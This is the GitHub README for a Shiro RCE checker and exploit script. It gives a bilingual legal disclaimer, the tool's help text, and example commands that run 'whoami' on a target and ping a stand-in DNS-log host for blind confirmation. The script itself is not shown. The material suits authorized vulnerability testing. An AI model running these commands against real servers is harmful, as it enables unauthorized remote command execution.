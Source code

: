 # ShiroRceTool
Simple checker and exploit for Shiro RCE. (一个简单的Shiro RCE检测和利用脚本。)

![](img\img1.png)

## 声明 WARNING
* 仅供安全人员验证,测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* Users must obey [the Cybersecurity Law of the People's Republic of China](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm)  and local laws.

## 使用方法 Usage

```bash
# USE PYTHON3
$python ShiroRceTool.py -h
 ____  _     _           ____         _____           _     
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|
                        
                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  exploit or check
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo Command.
```

## 示例 Example

```
# Check
python ShiroRceTool.py -m check -u "http://example.com"
# Exec cmd with echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
# Exec cmd with no echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```

